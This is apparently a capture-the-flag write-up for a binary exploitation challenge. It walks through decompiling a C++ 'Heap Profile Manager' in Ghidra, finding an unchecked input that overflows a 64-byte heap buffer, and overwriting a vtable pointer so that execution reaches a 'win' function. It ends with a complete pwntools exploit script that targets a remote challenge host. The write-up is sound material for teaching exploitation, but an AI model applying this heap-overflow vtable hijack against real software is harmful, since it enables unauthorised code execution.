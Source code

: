 ```yaml
---
description: Binary Exploitation
---
```


# Pwn - Intro

**Warning: This writeup was originally in** :flag\_id: **INDONESIAN for the competition's mandatory writeup, so I used ChatGPT to translate to ENGLISH!!!**

{% file src="../../.gitbook/assets/chall" %}

A given binary named **chall** was analyzed and found to be a “Heap Profile Manager.” After decompiling it using **Ghidra**, its working mechanism was identified as follows:

```c
void vulnerableFunction(void)

{
  char *pcVar1;
  UserProfile *this;
  AdminProfile *this_00;
  ostream *poVar2;
 
  pcVar1 = (char *)operator.new[](0x40);
  this = (UserProfile *)operator.new(8);
  *(undefined8 *)this = 0;
  UserProfile::UserProfile(this);
  this_00 = (AdminProfile *)operator.new(8);
  *(undefined8 *)this_00 = 0;
  AdminProfile::AdminProfile(this_00);
  std::operator<<((ostream *)std::cout,"Enter your profile descri ption: ");
  std::operator>>((istream *)std::cin,pcVar1);
  poVar2 = std::operator<<((ostream *)std::cout,"Your profile says: ");
  poVar2 = std::operator<<(poVar2,pcVar1);
  std::operator<<(poVar2,"\n");
  (*(code *)**(undefined8 **)this)(this,pcVar1);
  if (pcVar1 != (char *)0x0) {
	operator.delete[](pcVar1);
  }
  if (this != (UserProfile *)0x0) {
	operator.delete(this,8);
  }
  if (this_00 != (AdminProfile *)0x0) {
	operator.delete(this_00,8);
  }
  return;
}
```

The program starts by allocating **0x40 (or 64 in decimal) bytes** for an input buffer, which is then passed to the `displayProfile` function to display what we input. For example:

![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXem0p45BR6fmb2GkyqQGPCNOij3HYapMOJjx5AwvLMsnqtOtd9W7njpJEzXKVICp8Y50EgJ7-9eV2NyVfYGJbAyQFsV3h65GHVnH-HAF4zclh79GbdJkvHtKIcBgIzkJm0C8LpTQw?key=Sk63IMvfyv2Pjq3qOggdwyjt)

However, a significant vulnerability is present in the input handling, as it does not validate the input length, allowing an **overflow**. The target overflow is the following function call, which also lacks validation, so it can be replaced with any pointer if done correctly:

```c
(*(code *)**(undefined8 **)this)(this,pcVar1);
```

After that, I tried analyzing the heap content by sending a **64-character cyclic payload** using `pwntools`:

```python
OFFSET=64

payload = flat(
	cyclic(OFFSET,n=8)
)

io.sendline(payload)
```

Since the buffer size is **0x40**, adding heap metadata should result in a total size close to that:

![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXd6BaNXTmg1IyPXk34vax80UzA4DNM8jdPXHVwR4pW3yxb1IWrh1mIJxgwqjN0mH87yCi3FGyOXwvotyEsk0rpZjathRUyziYkQH_zgss0WZQrdBkYsXrEJ5VRHt1uXkZFUjSX-qA?key=Sk63IMvfyv2Pjq3qOggdwyjt)

Thus, I was able to further analyze the heap chunk addresses:

![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXcAMHx5eCJ-vV91HC-pk-kIaxuY-ls_jSqsMid6Z9R0kQ6j_SMuu8s4LtdGNqcD4pnNFL8Juq2Hwpb-diiHNyiqN0rCb-gZuLdj_a4iZHv3osTTBPDeML7d4FFdVnTl9vICjHr5FQ?key=Sk63IMvfyv2Pjq3qOggdwyjt)

It was concluded that **three allocations** occur in sequence:

1. **Buffer allocation (0x40)**
2. **User allocation (8 bytes)**
3. **Admin allocation (8 bytes)**

The next steps are:

1. **Overflow without corrupting the heap structure**
2. **Replace the vtable of `UserProfile` with the vtable of the `win` function found in the `AdminProfile` class**

![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXfLGDeVTbDyv4IJMlegMYHgK343rIjWPZGTES19GzeBYlHkVQcp-_RK_wlRxdoupTP3qml6_G-xd_OKuFItwdnzb4M5Ehsx3wDiCTvT1arlqSSTmMXTQ9tcXA9bnm9WmH-MepEXAw?key=Sk63IMvfyv2Pjq3qOggdwyjt)

The **vtable address** used can be found in **Ghidra**, resulting in the following **payload structure**:

1. **Offset characters**
2. **Heap overflow**
3. **Address of the vtable for `win`**

Thus, the final payload is as follows:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# -*- template: winterbitia -*-

# ====================
# -- PWNTOOLS SETUP --
# ====================

from pwn import *

exe = context.binary = ELF(args.EXE or 'chall')
trm = context.terminal = ['tmux', 'splitw', '-h']

host = args.HOST or '103.127.138.252'
port = int(args.PORT or 17010)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

gdbscript = '''
tbreak main
b *vulnerableFunction+226
b *vulnerableFunction+242
b *vulnerableFunction+264
b *vulnerableFunction+286
continue
'''.format(**locals())

# =======================
# -- EXPLOIT GOES HERE --
# =======================

io = start()

OFFSET=64

log.info(io.clean())

payload = flat(
    cyclic(OFFSET,n=8),
    0x0 * 15,
    0x21,
    0x403db0
)

io.sendline(payload)

io.interactive()
```

<figure><img src="../../.gitbook/assets/Screenshot 2025-01-05 134643.png" alt=""><figcaption></figcaption></figure>
